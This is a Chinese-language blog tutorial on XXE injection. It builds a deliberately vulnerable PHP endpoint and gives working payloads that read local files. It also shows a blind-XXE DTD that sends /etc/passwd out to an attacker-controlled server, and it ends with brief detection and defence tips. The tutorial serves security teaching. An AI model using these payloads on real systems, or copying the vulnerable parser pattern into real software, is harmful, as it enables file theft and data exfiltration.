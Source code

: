 ```yaml
---
title: XXE漏洞原理及简单利用
author: jh2ng
cover: 'https://b3logfile.com/file/2020/10/image-ded7f0f7.png'
tags:
  - Web安全
categories:
  - 网络安全
abbrlink: 18655
date: 2021-03-22 17:19:00
---
```




### 什么是XXE

---

XXE注入，即XML External Entity，XML外部实体注入。通过 XML 实体，”SYSTEM”关键词导致 XML 解析器可以从本地文件或者远程 URI 中读取数据。所以攻击者可以通过 XML 实体传递自己构造的恶意值，是处理程序解析它。当引用外部实体时，通过构造恶意内容，可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害。

### XXE漏洞原理

---

XML可以从外部读取DTD文件的话，那么就可以想一下，如果把读取文件的路径换成另一个文件的路径，那么是否可以读取到这个文件。如果把路径指向一个内网端口，是否能探测内部端口。另外，服务器解析XML，要么一次性加载，要么是一部分一部分的去加载，递归调用XML定义，一次性调用超量的定义，那么服务器内存就会消耗光，造成拒绝服务攻击。

* 读取文件
* 命令执行
* 内网探测
* DDOS攻击
* 钓鱼

### 简单XXE漏洞代码编写

---

1. 常用函数介绍

file_get_contents()函数把整个文件读入一个字符串中

php://input是个可以访问请求的原始数据的只读流

```php
<?php 
	$str=file_get_contents("php://input");
	echo $str;
?>
```

simplexml_load_string函数

将xml格式字符串转换为对应的simpleXMLElement

```php
<?php
$note=<<<XML
<note><name>aaa</name><age>12</age></note>
XML;
$xml=simplexml_load_string($note);
print_r($xml);
?>
```

XML注入回显 输出函数

print_r()

编写简单的XXE漏洞

```php
<?php 
	error_reporting(0);
	$xml=file_get_contents("php://input");
	$data=simplexml_load_string($xml);
	echo "<pre>";
	print_r($data);  //有回显
 ?>
```

eg.

环境搭建

![image.png](https://b3logfile.com/file/2020/10/image-33b70112.png)

![image.png](https://b3logfile.com/file/2020/10/image-a76cda90.png)

读取本地文件payload

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">]>
<root>
<name>&xxe;</name>
</root>
```

使用bp抓包

![image.png](https://b3logfile.com/file/2020/10/image-beb7584b.png)

修改请求方式，上传payload，读取C盘下的Windows.ini这个文件

![image.png](https://b3logfile.com/file/2020/10/image-dbd01e8f.png)

![image.png](https://b3logfile.com/file/2020/10/image-1a5186d6.png)

成功读取到这个文件。

### 漏洞利用-任意文件读取

php中测试POC

```
file:///path/to/file.txt
http://url/file.txt
php://filter/read=convert.base64-encode/resource=conf.php
```

读取文件（有回显）

paylaod

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE ANY [ 
<!ENTITY xxe SYSTEM "file:///C:/test/flag.txt">]>
<value>&xxe;</value>
```

![image.png](https://b3logfile.com/file/2020/10/image-70693e73.png)

读取php文件

![image.png](https://b3logfile.com/file/2020/10/image-868045af.png)

![image.png](https://b3logfile.com/file/2020/10/image-325e35d3.png)

读取文件（无回显）

`print_r($data); `输出了我们查询的结果，如果没有这个函数的话，只有使用Blind XXE来构建一条带外信道提取数据。

![image.png](https://b3logfile.com/file/2020/10/image-ded7f0f7.png)

请求服务器，服务器会再次向我们搭建的服务器请求dtd文件

```
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://192.168.73.134/test.dtd">
<foo>&e1;</foo>
```

构造服务器的dtd

```
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://192.168.73.134/test.php?con=%p1;'>">
%p2;
```

服务器请求到这个dtd之后，会开始解析。然后把得到的密码通过请求参数再次访问我们的服务器，从而造成数据外带，我们可以通过抓包获取到信息。

### XXE漏洞发现与防御

抓包引用外部实体来探测是否存在XXE漏洞

```xml
<?xml version="1.0"?>
<!DOCTYPE xxe "This is test">
<foo>&xxe;</foo>
```

如何防御？

* 禁用外部实体
* 过滤用户提交的参数（XML的关键词）

### 参考链接

> https://www.freebuf.com/articles/web/177979.html
>
> https://www.freebuf.com/column/181064.html
>
> https://pentesterlab.com/exercises/play_xxe/course
